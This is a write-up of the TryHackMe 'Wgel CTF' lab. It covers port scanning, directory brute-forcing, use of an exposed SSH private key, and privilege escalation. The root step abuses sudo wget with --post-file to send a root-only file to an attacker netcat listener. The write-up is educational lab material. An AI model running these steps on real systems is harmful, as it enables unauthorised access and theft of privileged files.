 ```yaml
---
layout: post
title: "☁️ TryHackMe - WGEL CTF"
date: 2025-07-24 10:00:00 +0200
categories: [Writeups]
tags: [ctf, tryhackme, pentest, easy]
pin: false
toc: true
comments: true
---
```


<div style="text-align: center;">
  <img src="https://cdn.hashnode.com/res/hashnode/image/upload/v1667861213814/MWfKWU2kh.png" alt="WGEL CTF" width="300">
</div>


## Introduction

| Description                       | Category                       | Level | Link                               |
| --------------------------------- | ------------------------------ | ----- | ---------------------------------- |
| Can you exfiltrate the root flag? | Enumeration, web, ssh, privesc | Easy  | https://tryhackme.com/room/wgelctf |


> Have fun with this easy box.
{: .prompt-info }

<br>

## 👨‍💼 User\_flag

First reflex when I start a CTF, I always start network scan on the target with \*\*nmap \*\*. This allows me to see all the active services on the target, this will allow me to infiltrate it.

```bash
nmap -p- -A 10.10.57.163
```

| OPTIONS | Description                                |
| ------- | ------------------------------------------ |
| `-p-`   | Scan ports from 1 through 65535 (all)      |
| `-A`    | Detection of OS and software versions used |

<br>

![screen 1](https://cdn.hashnode.com/res/hashnode/image/upload/v1667829270280/S72YGl_jJ.png)

I see that an Apache server is running on port 80, from my browser we can see the default page.

![screen 2](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835292581/aJa5T-a8t.png)

After checking the source code, we can identify a potential user --&gt; **Jessie** Let's put it aside, it will interest us for the continuation

> **Note:** It is essential to take notes on all information, loot found during the CTF.
{: .prompt-tip }


![screen 3](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835611781/YgLwravJ3.png )

I will now run an enumeration on the web page to list all hidden directories/files I use \*\*FerroxBuster \*\*which is nicer but a \*\*dirb \*\*will do very well

```bash
└─$ feroxbuster -u http://10.10.57.163 -w /usr/share/wordlists/dirb/common.txt
```

| OPTIONS | Description          |
| ------- | -------------------- |
| `-u`    | The target URL       |
| `-w`    | Path to the wordlist |

![screen 4](https://cdn.hashnode.com/res/hashnode/image/upload/v1667836117801/jHHRzm1OT.png )

We found a hidden page that matches **<http://10.10.57.163/sitemap/.ssh/>**

Let's see what's there, HOOO surprise a ssh key

![screen 5](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838342755/XF4Xxtxji.png)

Download the ssh key and change the rights on it with chmod

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ wget http://10.10.57.163/sitemap/.ssh/id_rsa
--2022-11-07 17:10:46--  http://10.10.57.163/sitemap/.ssh/id_rsa
Connexion à 10.10.57.163:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1675 (1,6K)
Sauvegarde en : « id_rsa.1 »

id_rsa.1       100%[=======================>]   1,64K  --.-KB/s    ds 0s      

2022-11-07 17:10:46 (198 MB/s) — « id_rsa.1 » sauvegardé [1675/1675]

┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ chmod 600 id_rsa
```

> After downloading a private SSH key (`id_rsa`), you **must** restrict its permissions<br>
> The `chmod 600 id_rsa` command gives **read and write permissions only to the owner** `6` :<br>
> read `4` + write `2`, and **no permissions** to group or others `0`
{: .prompt-warning }


Ok now, let's try to connect with ssh

```bash
ssh -i id_rsa jessie@10.10.57.163
```

| OPTIONS  | Description                                                                                |
| -------- | ------------------------------------------------------------------------------------------ |
| `-i`     | Selects a file from which the identity (private key) for RSA or DSA authentication is read |
| `jessie` | Remember this is the user found on the source code of the default web page                 |


![screen 6](https://cdn.hashnode.com/res/hashnode/image/upload/v1667837733101/IWr-vmnH9.png)

Let's find the flag from Jessie's account

![screen 7](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838734846/4yNYdftHHt.png)

First objective achieved, we now have the user flag, let's go to the root flag

<br>

## 💀 Root\_flag

Once connected as a user, my next goal is to increase my privileges, let's check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
```
| OPTIONS | Description                                                                                                                                                                         |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-l`    | If no command is specified, the -l (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. |

![screen 8](https://cdn.hashnode.com/res/hashnode/image/upload/v1667839805405/e-jImgSH6.png)

We can see that wget is executable as root without password.

Let's go to [https://gtfobins.github.io/gtfobins/wget/](Link)


Let's launch our listener from the attacking machine in order to get the content of the file we are interested in (root\_flag.txt) and execute the wget command from the target

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ nc -lvnp 9001
_________________________________________________________

jessie@CorpOne:~$ sudo -u root /usr/bin/wget --post-file=/root/root_flag.txt 10.9.13.192:9001
```

![screen 9](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840461095/op7kMZ4Lt.png)

![screen 10](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840594374/rxFUnq4oS.png)

🏁 We have now obtained our last root flag. I hope you enjoyed this first CTF write-up, feel free to share it.


> 🛠 All documentation for tools mentioned or used :<br>
> nmap <https://nmap.org/book/man.html><br>
> Ferroxbuster <https://epi052.github.io/feroxbuster-docs/docs/><br>
> dirb <https://www.kali.org/tools/dirb/><br>
> ssh <https://www.kali.org/tools/openssh/><br>
> sudo <https://www.kali.org/tools/sudo/>
{: .prompt-info }